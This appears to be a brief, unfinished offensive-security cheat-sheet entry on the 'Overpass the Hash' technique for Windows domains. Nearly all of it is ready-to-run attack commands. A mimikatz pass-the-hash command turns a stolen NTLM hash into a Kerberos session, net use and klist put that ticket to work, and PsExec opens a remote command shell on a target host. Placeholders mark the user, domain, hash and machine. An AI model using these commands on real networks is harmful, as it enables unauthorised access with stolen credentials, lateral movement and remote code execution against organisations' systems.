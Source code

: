 # Overpass The Hash

#### STILL EDITING

**Overpass the hash** (turn the NTLM hash into a Kerberos ticket and avoid the use of NTLM authentication):

```
mimikatz # sekurlsa::pth /user:<USERNAME> /domain:<DOMAIN> /ntlm:<NTLM_HASH> /run:PowerShell.exe
```

```powershell
net use \\$MACHINE_HOSTNAME
klist
```

To gain a remote code execution:

```powershell
.\PsExec.exe \\$MACHINE_HOSTNAME cmd.exe
```
